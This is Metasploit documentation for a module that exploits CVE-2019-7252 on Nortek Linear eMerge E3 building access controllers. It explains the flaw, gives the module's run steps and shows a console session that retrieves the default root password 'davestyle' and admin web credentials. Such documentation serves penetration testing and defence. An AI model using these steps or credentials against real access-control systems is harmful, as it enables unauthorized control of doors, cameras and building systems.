 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

Building Automation and Access Control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems in an entire building.

Default credentials exist within a vulnerable configuration on the Linear eMerge E3 access controller that can be easily leveraged
to gain privileged access to the system.

The first credential vulnerability is based on a default root password that is stored in `/etc/passwd`.
This can be used to escalate to root privileges using the RCE vulnerability CVE-2019-7256 or use these credentials in combination
with ssh (if enabled) to get root access to the access controller.

The second credential vulnerability allows an unauthenticated malicious actor to obtain the admin web credentials admin from the
spider database that is accessible and readable for the world on the access controller.
With this access, the malicious actor is able to control the Linear eMerge E3 access controller platform, the access to building,
its cameras and the authority to manage the access rights of users.

This issue affects all Linear eMerge E3 versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3 access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 access controller
* Firmware < `v1.00-03`

## Verification Steps

1. `use auxiliary/admin/http/linear_emerge_cred_disclosure_cve_2019_7252`
1. `set RHOSTS <TARGET HOSTS>`
1. `run`
1. You should be able to check if the default root password `davestyle` is available and retrieve the admin web credentials.

## Options
`STORE_CRED <true/false>` which allows you to store the leaked credentials in the creds database of Metasploit

## Scenarios

### Nortek Linear eMerge E3 access controller credential disclosure

```
msf6 > use auxiliary/admin/http/linear_emerge_cred_disclosure_cve_2019_7252
msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > options

Module options (auxiliary/admin/http/linear_emerge_cred_disclosure_cve_2019_7252):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credentials into the database.
   TARGETURI   /                yes       Linear eMerge E3 path
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > run
[*] Running module against 192.168.100.180

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.813634401994932 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Retrieving admin web credentials...
[+] Admin web credentials found: admin:cuckoo
[*] Credentials admin:cuckoo are added to the database...
[*] Checking for default root system credentials...
[+] Default root system credentials found: root:davestyle
[*] Credentials root:davestyle are added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > creds 192.168.100.180
Credentials
===========

host             origin           service        public  private    realm  private_type  JtR Format
----             ------           -------        ------  -------    -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  root    davestyle         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   cuckoo            Password
```

## Limitations
No limitations.
